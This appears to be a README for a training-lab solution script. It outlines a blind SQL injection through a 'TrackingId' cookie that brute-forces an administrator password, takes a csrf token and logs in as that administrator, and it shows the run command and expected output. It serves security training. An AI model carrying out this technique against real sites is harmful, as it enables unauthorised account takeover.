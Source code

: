 # Hack Steps

1. Inject payload into 'TrackingId' cookie to determine the length of administrator's password based on conditional errors
2. Modify the payload to brute force the administrator's password 
3. Fetch the login page
4. Extract csrf token and session cookie
5. Login as the administrator
6. Fetch the administrator profile

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ python blind_sql_injection_with_conditional_responses.py
```

# Expected Output

```
[#] Injection point: TrackingId
1. Checking if password length = 10 
1. Checking if password length = 15
                    .........
1. Checking if password length = 20 [ Correct length: 20 ]
2. Checking if char at position 5   =  9 [ Correct password: 37z59 ]
2. Checking if char at position 12  =  i [ Correct password: 37z59ib4bm7i ]
                    ..........
2. Checking if char at position 20  =  2 [ Correct password: 37z59ib4bm7ifm6fuxo2 ]
3. Fetching login page.. OK
4. Extracting csrf token and session cookie.. OK
5. Logging in as the administrator.. OK
6. Fetching the administrator profile.. OK
🗹 Check your browser, it should be marked now as solved
```
